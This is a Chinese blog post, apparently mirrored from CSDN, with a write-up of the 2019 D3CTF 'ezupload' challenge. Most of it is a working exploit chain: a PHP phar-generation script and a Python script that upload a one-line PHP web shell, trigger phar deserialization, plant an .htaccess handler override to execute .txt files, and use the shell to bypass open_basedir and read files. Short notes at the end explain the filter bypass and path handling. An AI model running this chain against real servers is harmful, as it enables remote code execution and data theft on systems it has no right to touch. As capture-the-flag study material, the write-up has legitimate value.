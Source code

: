 <!--yml
category: 未分类
date: 2022-04-26 14:46:30
-->

# 2019 D3CTF ezupload题解_slug01sh的博客-CSDN博客

> 来源：[https://blog.csdn.net/qq_43085611/article/details/119717608](https://blog.csdn.net/qq_43085611/article/details/119717608)

# 0 前言

一个 PHP 反序列化的题目。虽然序列化的的利用链简单，但是还是踩了很多坑。

# 1 题解

```
<?php

class dir{
    public $userdir;
    public $url;
    public $filename;
}

$o = new dir();
$tmp = new dir(); 
$tmp->userdir = $argv[1]; 
$o->userdir = $tmp;
$o->filename = $argv[2]; 

@unlink("phar.phar");
$phar = new Phar("phar.phar");
$phar->startBuffering(); 
$phar->setStub('__HALT_COMPILER();'); 
$phar->setMetadata($o); 
$phar->addFromString('tmp.txt', ''); 
$phar->stopBuffering();

echo 'data:text/plain;base64,'.shell_exec('base64 phar.phar'); 
```

```
import os
from urllib.parse import quote
import requests
import re

url='http://b5ed8b22-1f82-42ce-a311-fbc0bda85341.node4.buuoj.cn:81/'

b64 = os.popen('php serialize.php ../ ""').read().strip()
r = requests.post(
    url=url,
    data={
        'action':'upload',
        'filename':'<?php eval($_GET[cmd])?>.txt',
        'url':b64
    },

)
print('[*]（上传一句话文件）:', r.text)
upload_dir = re.findall(r'your file in : (.+)', r.text)[0]
print(upload_dir)

b64 = os.popen('php serialize.php ../ 123').read().strip()
r = requests.post(
    url=url,
    data={
        'action':'upload',
        'filename':'phar.txt',
        'url':b64
    },

)
print('[*]:', r.text)

r = requests.post(
    url=url,
    data={
        'action':'upload',
        'filename':'',
        'url':f'phar://{upload_dir}/phar.txt'
    },

)
print('[*]（读取上一级目录）:', r.text)
dir_name = re.findall(r'\.\. (.+?)your', r.text)[0]
print(dir_name)

b64 = os.popen(f'php serialize.php {upload_dir} /var/www/html/{dir_name}/{upload_dir}/webshell').read().strip()
r = requests.post(
    url=url,
    data={
        'action':'upload',
        'filename':'phar.txt',
        'url':b64
    },

)
print(f'php serialize.php {upload_dir} /var/www/html/{dir_name}/{upload_dir}/slug01sh')
print('[*]（上传一句话phar文件）:', r.text)

r = requests.post(
    url=url,
    data={
        'action':'upload',
        'filename':'',
        'url':f'phar://{upload_dir}/phar.txt'
    },

)
print('[*]:', r.text)

r = requests.post(
    url=url,
    data={
        'action':'upload',
        'filename':'.htaccess',
        'url':'data:image/png;base64,QWRkSGFuZGxlciBwaHA3LXNjcmlwdCAudHh0'
    },

)
print('[*]:', r.text)

r = requests.get(
    url=url + f"{upload_dir}/webshell.txt?cmd=ini_set('open_basedir', '..');chdir('..');chdir('..');chdir('..');chdir('..');chdir('..');chdir('..');ini_set('open_basedir', '/');var_dump(file_get_contents('/F1aG_1s_H4r4'));"
)

print(r.url)
print(r.text) 
```

将 php 文件和 Python 文件放入相同的目录下，然后执行 `python3 exp.py` 即可 getflag。
![](img/ef84a03982d1d65e177d63abbb7a245d.png)

# 2 收获

## 2.1 .htaccess

题目中过滤了 `type` 关键字，导致常用的 `.htaccess` 无法使用。

```
AddType application/x-httpd-php .txt 
```

解决办法：考虑修改为另一种写法

```
AddHandler php7-script .txt 
```

当然很多绕过方法，都是类似的思想，根据一个具体的目标寻找代替物。

## 2.2 反序列化的工作路径

在这题中，首先利用了文件自带的 upload 功能来写入文件，程序的工作路径在`代码所在的文件夹`，所以 upload 时可以利用相对路径来写入文件。

但在后面需要利用 destruct 的 file_put_content 来写入文件，反序列化时程序的工作路径在根目录，所以无法直接使用相对路径来写入文件。

# 3 总结

在文件相关的函数中，相对路径和绝对路径都最好尝试一下，可能会有意想不到的收获。